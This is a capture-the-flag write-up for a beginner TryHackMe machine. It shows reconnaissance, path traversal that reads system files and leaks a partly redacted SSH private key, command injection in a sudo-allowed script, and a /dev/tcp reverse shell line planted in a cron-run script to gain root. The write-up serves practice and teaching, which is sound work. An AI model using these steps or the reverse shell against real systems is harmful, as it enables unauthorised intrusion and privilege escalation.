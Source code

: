 ```bash
# PLATFORM          . THM
# CTF NAME          . Team
# DESCRIPTION       . Beginner friendly boot2root machine
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/teamcw
```

```
pi@raspberry:~ $ sudo nmap -sSVC -T5 -p- 10.10.83.82 -oN team
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 795f116a85c20824306cd488741b794d (RSA)
|   256 af7e3f7eb4865883f1f6a254a69bbaad (ECDSA)
|_  256 2625b07bdc3fb29437125dcd0698c79f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

#### PORT 80

- Checking the source code, we find the following

```
If you see this add 'team.thm' to your hosts!
```

- So we added `ip             team.thm` to our `/etc/hosts` file.

- Fuzzing `team.thm`, we find several pieces of relevant information

```
assets                  [Status: 301, Size: 305, Words: 20, Lines: 10]
images                  [Status: 301, Size: 305, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 2966, Words: 140, Lines: 90]
robots.txt              [Status: 200, Size: 5, Words: 1, Lines: 2]
scripts                 [Status: 301, Size: 306, Words: 20, Lines: 10]
```

**robots.txt** 

- contains the string `dale` - possible username.

**scripts** and **assets** - no access.

**images** - just images.

- Having to clear path found, I tried to bruteforce both `SSH` and `FTP` with `dale` as username, but I since I haven't had any luck in the first few minutes, I assumed this isn't the right path.

- So I've decided to fuzz for subdomains

```
fuf -c -w /usr/share/wordlists/wfuzz/general/common.txt -u http://team.thm -H "Host: FUZZ.team.thm" -fl 374
```

**NOTE**: I added `-fl 374` because I got a lot of `200 OK` having 374 lines in length and I assumed those are false positives.

```
dev                     [Status: 200, Size: 187, Words: 20, Lines: 10]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90]
```

- Modify `/etc/hosts` to point to `dev.team.thm`

- After clicking the link, the URL changes to `http://dev.team.thm/script.php?page=teamshare.php`.

- Trying to replace `teamshare.php` with a simple `../../../etc/passwd` reveals that the page is vulnerable to Path Traversal.

- I tried looking for `/home/dale/.ssh/id_rsa` but I had no luck ; next, I've decided to check the config of ssh to see if the user `dale` is even allowed to `SSH` into the box, and I kind of hit the jackpot :)

- After reading the `/etc/ssh/sshd_config` file I found the `private key` of `dale` at the end. (and yes, he's allowed to SSH to the box)

```
{TRUNCATED}

AllowUsers dale gyles

#Dale id_rsa

#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
								{REDACTED}
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```

- User flag is in `/home/dale/user.txt`.

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

- This is a bash script ; however, this is owned by user gyles, and since `$error` is getting executed, let's try running the script with the `/bin/bash` as input instead of date.

```
Reading stats.
Reading stats..
Enter name of person backing up the data: abc
Enter 'date' to timestamp the file: /bin/bash
The Date is whoami
gyles
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- Back to privilege escalation.

```
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

- `editors` and `admin` are not default groups a user should be in, so let's see what files are owned by these groups.

```
gyles@TEAM:~$ find / -group admin 2>/dev/null
/usr/local/bin
/usr/local/bin/main_backup.sh
/opt/admin_stuff

gyles@TEAM:~$ find / -group editors 2>/dev/null
/var/stats/stats.txt
/home/gyles/admin_checks
```

- The `/opt/admin_stuff` directory contains a `script.sh` file that is owned by `root:root` and we can't execute it ;

- `/usr/loca/bin/main_backup.sh` is owned by `root:admin` and we have `rwx` permissions for it.

```
gyles@TEAM:~$ ls -l /opt/admin_stuff/
-rwxr--r-- 1 root root 200 Jan 17  2021 script.sh
```

```
gyles@TEAM:~$ ls -l /usr/local/bin/main_backup.sh 
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
```

```
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

- I've changed the `cp` command to `sh -i 5<> /dev/tcp/10.11.53.46/3131 0<&5 1>&5 2>&5` and waited for a short while with my listener on even if I didn't see anything in `/etc/crontab`. 

- Shortly after I got a shell as `root`.

- The last flag is in `/root/root.txt`.